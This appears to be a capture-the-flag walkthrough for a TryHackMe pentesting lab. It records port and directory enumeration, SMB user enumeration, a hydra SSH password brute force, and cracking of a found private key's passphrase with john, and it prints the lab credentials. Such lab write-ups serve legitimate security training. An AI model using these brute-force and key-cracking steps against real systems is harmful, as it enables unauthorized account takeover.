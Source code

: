 https://tryhackme.com/room/basicpentestingjt


ip = `10.10.186.142`


## open ports

22 
80 
139 
445 
8009

## Findings

Apache/2.4.18 (Ubuntu) Server at 10.10.186.142 Port 80


development found with gobuster
`gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.186.142`


found users kay and jan using enum4linux: `enum4linux -a 10.10.186.142`


got the password for jan with hydra: armando
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.186.142` 
.
.
.
[22][ssh] host: 10.10.186.142   login: jan   password: armando
.
.


doing linux enumeration using linpeas
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa



`ssh2john kay_id_rsa > forjohn.txt`

`john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt`

and we got

`beeswax          (kay_id_rsa)`


Now: ssh -i kay_id_rsa kay@10.10.186.142  with beeswax

kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

